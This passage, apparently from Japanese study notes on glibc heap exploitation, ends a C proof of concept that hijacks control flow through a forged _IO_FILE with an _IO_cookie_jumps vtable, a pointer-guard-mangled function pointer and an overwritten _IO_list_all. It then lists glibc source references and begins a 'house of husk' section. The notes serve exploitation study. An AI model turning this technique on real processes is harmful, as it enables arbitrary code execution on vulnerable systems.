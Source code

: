 ```c

    // _IO_cookie_read
    *(unsigned long*)(fake_io_struct+0xd8) = (unsigned long)IO_cookie_jumps+0x58; // vtable
    *(unsigned long*)(fake_io_struct+0xe8) =
                ENC_FUNC((unsigned long)target1, pointer_guard); // cookie_io_functions_t.read

    // _IO_cookie_write
    //*(unsigned long*)(fake_io_struct+0xd8) = (unsigned long)IO_cookie_jumps+0x60; // vtable
    //*(unsigned long*)(fake_io_struct+0xf0) = 
    //          ENC_FUNC((unsigned long)target1, pointer_guard); // cookie_io_functions_t.read

    // _IO_cookie_seek
    //*(unsigned long*)(fake_io_struct+0xd8) = (unsigned long)IO_cookie_jumps+0x68; // vtable
    //*(unsigned long*)(fake_io_struct+0xf8) = 
    //          ENC_FUNC((unsigned long)target1, pointer_guard); // cookie_io_functions_t.read

    // _IO_cookie_close
    //*(unsigned long*)(fake_io_struct+0xd8) = (unsigned long)IO_cookie_jumps+0x70; // vtable
    //*(unsigned long*)(fake_io_struct+0x100) = 
    //          ENC_FUNC((unsigned long)target1, pointer_guard); // cookie_io_functions_t.read

    // overwrite symbols
    *(unsigned long*)IO_list_all = fake_io_struct;

    puts("End of main()");
    // _exit(0); //not work
    // exit(0);
    return;
}
```


### 参考
* \_IO_FILE_plus
https://elixir.bootlin.com/glibc/glibc-2.35.9000/source/libio/libioP.h#L324
* \_IO_flush_all_lockp
https://elixir.bootlin.com/glibc/glibc-2.35.9000/source/libio/genops.c#L685
* \_IO_jump_t
https://elixir.bootlin.com/glibc/glibc-2.35.9000/source/libio/iofopncook.c#L155
* \_IO_cookie_file
https://elixir.bootlin.com/glibc/glibc-2.35.9000/source/libio/libioP.h#L342
* \_IO_cookie_io_functions_t
https://elixir.bootlin.com/glibc/glibc-2.35.9000/source/libio/bits/types/cookie_io_functions_t.h#L61
* \_IO_cookie_xxx関数系
https://elixir.bootlin.com/glibc/glibc-2.35.9000/source/libio/iofopncook.c#L33
* 解説記事
https://www.anquanke.com/post/id/260614

## \__printf_function_table / \__printf_arginfo_table
house of husk の1パート
ver2.35で動作確認済み
